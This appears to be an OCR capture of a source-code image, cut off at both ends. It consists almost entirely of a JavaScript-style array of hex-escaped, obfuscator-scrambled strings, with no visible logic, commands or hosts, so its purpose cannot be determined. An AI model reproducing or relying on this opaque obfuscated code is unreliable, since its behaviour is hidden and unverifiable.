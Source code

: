 x57\x36\x70\x63\x53\x47\x71\x70\x69\x57','\x67\x43\x6b\x33\x65\x4a\x69\x72','\x76\x75\x6e\x79\x73\x67\x53','\x73\x31\x76\x48\x7a\x33\x75','\x7a\x75\x76\x72\x44\x66\x65','\x57\x34\x57\x57\x6f\x32\x6c\x63\x53\x57','\x57\x36\x70\x64\x4a\x43\x6f\x77\x57\x35\x65\x6e','\x6d\x6d\x6b\x6b\x64\x4a\x47\x7a','\x57\x52\x56\x64\x53\x6d\x6b\x75','\x64\x43\x6b\x6e\x72\x38\x6f\x36\x74\x63\x34\x75','\x42\x4d\x38\x54\x79\x32\x66\x4a\x41\x67\x75','\x57\x50\x78\x63\x4c\x43\x6b\x54\x61\x47','\x72\x30\x48\x58\x75\x75\x69','\x57\x50\x78\x63\x4d\x4a\x47\x73\x57\x52\x79\x75','\x71\x4e\x4a\x63\x47\x38\x6f\x6d\x41\x57','\x44\x53\x6b\x37\x67\x68\x44\x48','\x75\x76\x78\x64\x4b\x38\x6b\x2b\x57\x34\x75','\x57\x37\x7a\x2b\x57\x50\x70\x64\x53\x77\x71','\x77\x77\x31\x55\x74\x33\x44\x4e\x6b\x33\x72\x4f\x44\x57','\x77\x4d\x72\x59\x72\x31\x43','\x44\x75\x66\x6d\x72\x77\x71','\x57\x51\x35\x50\x77\x43\x6f\x79\x41\x6d\x6b\x73\x46\x57','\x78\x68\x46\x64\x51\x53\x6f\x71\x57\x50\x75','\x57\x35\x66\x78\x57\x4f\x4e\x64\x56\x71','\x57\x36\x70\x64\x51\x53\x6f\x70\x57\x34\x4c\x7a','\x57\x36\x69\x63\x62\x4d\x57','\x43\x32\x4c\x4e\x42\x4b\x4c\x55\x44\x67\x76\x4e\x43\x47','\x44\x75\x58\x7a\x43\x32\x75','\x79\x75\x74\x64\x4f\x43\x6f\x61\x57\x51\x79','\x73\x58\x58\x43\x7a\x38\x6f\x4a','\x57\x51\x57\x4b\x78\x73\x61','\x66\x78\x69\x4e\x57\x50\x65','\x57\x35\x6d\x4f\x6c\x65\x4a\x63\x4b\x61','\x57\x36\x37\x64\x48\x6d\x6b\x4d\x43\x6d\x6f\x57','\x75\x4e\x56\x63\x53\x32\x4f\x70','\x57\x35\x69\x4e\x6d\x33\x64\x63\x4d\x71','\x57\x52\x46\x64\x4b\x6d\x6b\x34\x67\x38\x6f\x41\x57\x35\x58\x4d','\x57\x4f\x42\x64\x51\x38\x6b\x44\x68\x6d\x6f\x73','\x43\x4d\x76\x32\x7a\x78\x6a\x5a\x7a\x71','\x6a\x67\x4b\x56\x57\x34\x57','\x57\x52\x2f\x63\x4f\x73\x43\x7a\x57\x52\x61','\x57\x52\x56\x64\x4a\x74\x33\x63\x49\x61','\x77\x66\x76\x32\x71\x31\x71','\x79\x77\x7a\x78\x45\x66\x4b','\x57\x36\x56\x63\x54\x64\x4b\x2f\x6a\x71','\x57\x35\x74\x64\x4b\x32\x6c\x63\x56\x48\x76\x4c\x57\x37\x68\x63\x4f\x73\x65','\x45\x43\x6f\x4f\x73\x53\x6f\x2b\x57\x52\x38\x44\x6b\x57','\x57\x52\x71\x39\x68\x53\x6f\x71\x43\x6d\x6b\x45\x6b\x38\x6f\x6e\x73\x4b\x69','\x45\x6d\x6f\x59\x57\x4f\x42\x63\x51\x38\x6b\x72\x57\x36\x4c\x66\x57\x4f\x56\x64\x53\x38\x6b\x62','\x57\x36\x79\x6b\x57\x50\x64\x63\x51\x77\x53','\x6d\x5a\x6d\x58\x6d\x4a\x71\x59\x6f\x75\x6e\x76\x42\x76\x4c\x4f\x75\x71','\x42\x53\x6b\x30\x43\x38\x6f\x67','\x71\x77\x72\x47\x78\x43\x6b\x79','\x44\x75\x64\x63\x4e\x43\x6f\x59\x74\x61','\x6d\x4a\x69\x57\x6d\x74\x65\x59\x6d\x4b\x6d','\x44\x68\x6a\x35\x74\x67\x39\x4a','\x46\x38\x6b\x65\x57\x36\x30\x63\x57\x36\x4b','\x79\x32\x58\x50\x7a\x77\x35\x30\x78\x32\x4c\x4b\x70\x71','\x6f\x68\x4c\x58\x6e\x4d\x72\x50','\x74\x67\x7a\x4b\x73\x68\x6d','\x57\x37\x58\x4e\x77\x63\x65\x42','\x57\x37\x54\x70\x57\x51\x52\x63\x4f\x53\x6b\x43','\x41\x77\x76\x53\x7a\x61','\x79\x4b\x4c\x72\x44\x65\x38','\x77\x43\x6f\x75\x57\x51\x79','\x7a\x4e\x50\x31\x75\x67\x43','\x6a\x38\x6b\x4e\x61\x38\x6f\x57\x67\x71\x65\x75\x57\x52\x47\x63\x61\x57','\x64\x53\x6f\x35\x57\x52\x65\x75\x41\x47','\x57\x35\x66\x4b\x57\x34\x50\x6a\x57\x35\x4f','\x41\x77\x74\x63\x55\x43\x6f\x43\x43\x47','\x57\x35\x33\x64\x47\x38\x6f\x6e\x57\x35\x79','\x57\x37\x42\x63\x4b\x5a\x38\x2f\x6b\x57','\x65\x77\x4e\x64\x47\x32\x4f\x6a','\x36\x69\x36\x33\x35\x79\x2b\x77\x79\x78\x6a\x30\x41\x77\x6e\x53\x7a\x75\x4b','\x57\x35\x72\x61\x77\x49\x53\x37','\x79\x76\x52\x63\x4e\x4c\x30\x4e','\x44\x4c\x44\x4d\x42\x66\x69','\x57\x52\x52\x64\x4e\x4a\x33\x63\x4b\x61','\x71\x33\x54\x39\x71\x43\x6b\x6e\x57\x37\x30\x66\x57\x50\x70\x63\x4c\x38\x6f\x6f','\x70\x38\x6f\x44\x57\x52\x65\x43\x45\x61','\x76\x57\x62\x36\x66\x77\x42\x64\x4c\x38\x6b\x79\x57\x36\x37\x63\x50\x68\x38','\x57\x50\x4e\x64\x48\x59\x42\x63\x54\x32\x65','\x74\x68\x66\x73\x43\x30\x38','\x77\x75\x4e\x64\x4a\x38\x6b\x64\x57\x35\x43','\x57\x36\x56\x64\x4a\x33\x78\x63\x4c\x73\x30','\x57\x34\x68\x64\x55\x38\x6b\x79\x41\x53\x6f\x6e\x42\x31\x37\x63\x50\x73\x38\x35','\x57\x4f\x31\x74\x57\x50\x46\x64\x4f\x62\x57\x31\x57\x52\x50\x70\x79\x53\x6f\x45','\x79\x38\x6f\x6e\x57\x4f\x2f\x63\x54\x38\x6b\x72','\x76\x53\x6b\x6e\x57\x34\x47\x76\x57\x52\x65','\x57\x36\x4a\x63\x49\x59\x79\x54\x6a\x47','\x46\x68\x56\x63\x54\x6d\x6f\x42\x41\x47','\x43\x31\x48\x76\x73\x68\x4b','\x76\x53\x6f\x58\x46\x63\x56\x63\x4e\x47','\x7a\x33\x68\x63\x53\x66\x65\x66','\x57\x36\x30\x48\x69\x78\x46\x63\x49\x57','\x57\x36\x74\x63\x4b\x73\x4b\x4d\x6c\x47','\x73\x68\x74\x64\x55\x38\x6f\x62\x57\x52\x4b\x64\x74\x47\x44\x46','\x77\x61\x2f\x64\x47\x38\x6b\x62\x44\x71\x4f','\x7a\x33\x76\x5a\x74\x30\x57','\x41\x77\x35\x5a\x44\x67\x66\x55\x79\x32\x75\x55\x63\x47','\x72\x65\x48\x66\x76\x77\x4b','\x79\x4b\x31\x66\x79\x77\x71','\x77\x77\x4c\x53\x41\x77\x57','\x74\x65\x75\x44\x78\x62\x38','\x77\x4b\x44\x69\x44\x75\x47','\x77\x47\x42\x64\x55\x53\x6b\x41\x74\x71','\x57\x52\x4f\x66\x69\x53\x6f\x2b\x64\x6d\x6b\x76\x46\x6d\x6f\x42','\x70\x43\x6b\x55\x57\x34\x46\x64\x53\x6d\x6f\x74','\x75\x62\x68\x64\x49\x38\x6b\x52\x7a\x61','\x35\x79\x32\x4f\x35\x41\x2b\x35\x35\x36\x6f\x68','\x76\x31\x66\x4a\x7a\x67\x34','\x57\x52\x58\x4a\x67\x71\x56\x64\x4f\x38\x6b\x76\x57\x34\x74\x64\x54\x38\x6b\x73\x57\x36\x53','\x57\x37\x58\x45\x57\x51\x52\x63\x52\x71','\x44\x67\x76\x5a\x44\x61','\x57\x51\x2f\x64\x50\x6d\x6b\x30\x6f\x38\x6f\x63','\x57\x34\x4f\x30\x62\x67\x33\x63\x51\x61','\x75\x4c\x62\x41\x7a\x30\x57','\x57\x34\x53\x70\x57\x35\x64\x64\x54\x74\x69','\x44\x67\x76\x54\x43\x68\x71\x47\x44\x67\x38\x47\x7a\x61','\x57\x52\x64\x64\x48\x53\x6b\x62\x68\x71','\x42\x4d\x54\x71\x45\x77\x30','\x44\x53\x6f\x58\x71\x57\x46\x63\x4a\x61','\x78\x43\x6b\x6a\x43\x73\x37\x64\x47\x4a\x58\x74\x73\x53\x6b\x6d\x57\x36\x34','\x57\x51\x65\x57\x78\x63\x34\x32\x57\x34\x61','\x74\x74\x69\x57\x6d\x64\x66\x6b\x6d\x4b\x6d','\x77\x68\x57\x71\x79\x75\x34','\x43\x4c\x4c\x35\x72\x67\x34','\x77\x66\x66\x6e\x75\x66\x47','\x74\x75\x7a\x73\x44\x77\x71','\x43\x31\x4c\x65\x73\x30\x4b','\x64\x53\x6f\x36\x57\x52\x47\x77\x43\x61','\x66\x43\x6f\x64\x57\x51\x61\x69\x71\x57','\